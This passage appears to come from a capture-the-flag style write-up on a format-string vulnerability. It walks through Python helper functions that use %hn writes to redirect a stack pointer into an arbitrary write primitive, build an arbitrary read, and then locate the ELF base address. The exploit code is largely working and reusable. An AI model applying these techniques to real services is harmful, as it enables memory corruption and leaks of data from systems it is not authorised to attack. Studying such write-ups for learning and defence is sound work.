 After the write to the address in index `26`, the value of index `39` gets overwritten with `0xdead`
in the lowest 4 bytes. This gives us a primitive to control the lower 4 bytes of index `39`. Since
index `39` contains a stack address, this allows us to modify it to point at an arbitrary point
within the immediate addressable stack.

A snippet implementing this primitive to point index `39` to any other index looks like so:

```python
def adjust_bouncer(p, base, index, offset=0):
    # Adjust the value of index 39 to point at a particular index.
    address = base + (index * 8) + offset
    lower_address = address & 0xffff
    payload = b'%' + str(lower_address).encode('utf-8') + b'c%26$hn'
    p.sendline(payload)
    p.recv()
```

With this primitive, we now have the capability to write data to another index using index `39` as a
'bouncer'. This is implemented like so:

```python
def write_index(p, index_base, index, address, value):
    # Writes an arbitrary value to an index.
    if index == 39:
        # NOT ALLOWEEED
        return

    for i in range(0, 8, 2):
        current_portion = (address >> (i * 8)) & 0xffff
        adjust_bouncer(p, index_base, index, offset=i)
        write_single(p, current_portion)
```

Taking index `41` as an example, we can use the capability to write to it to control address to read
from. This gives us our arbitrary read primitive.

```python
def leak_data(p, index):
    payload = ('%' + str(index) + '$s').encode('utf-8')
    r = run_leak(p, payload)
    return r

def arbitrary_read(p, index_base, address):
    write_index(p, index_base, 41, address, 0)
    data = leak_data(p, 41)
    return data
```

Next, we need to find the base address of the ELF binary. As a guess, we can use the address of the
format string in `.bss` and apply a mask. After some trial and error, it was discovered that the
mask of `0xffffffffffffe000` grants the right address with a high probability. We can tell because
the ELF header should start with `ELF`.
